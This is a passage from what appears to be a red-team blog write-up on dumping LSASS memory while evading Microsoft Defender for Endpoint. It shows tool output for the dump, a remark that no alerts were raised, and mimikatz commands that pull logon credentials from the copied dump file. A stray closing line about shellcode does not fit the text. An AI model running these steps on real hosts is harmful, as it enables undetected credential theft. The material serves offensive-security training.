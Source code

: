 ```
[*] Finding LSASS process
[*] LSASS found
[*] Checking for Credential Guard...
[*] No Credential Guard detected
[*] Collecting data for minidump: system info
[*] Collecting data for minidump: module info
[*] Collecting data for minidump: memory info and content
[*] Generating the minidump file
[*] Wrote LSASS minidump to output/edr-bypass-2023-09-07-lsass.dmp
[*] Read 71 MB, cached reads 10 MB
```

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230907180732.png)

Noting for any alerts, no new alerts are found:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230823180840.png)

<a name="credential-extraction-from-dump-file-1"></a>
### Credential Extraction from dump file

Exfiltrate the minidmp file from `C:\Tools\minidump` back onto our local machine by a simple Copy - Paste and parse it using mimikatz as follows:

```
PS D:\Work\CRTPwithSLiver\Tools\mimikatz_trunk\x64> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::minidump minidump.dmp
Switch to MINIDUMP : 'minidump.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'minidump.dmp' file for minidump...
```

[+]: Shellcode located at c7160
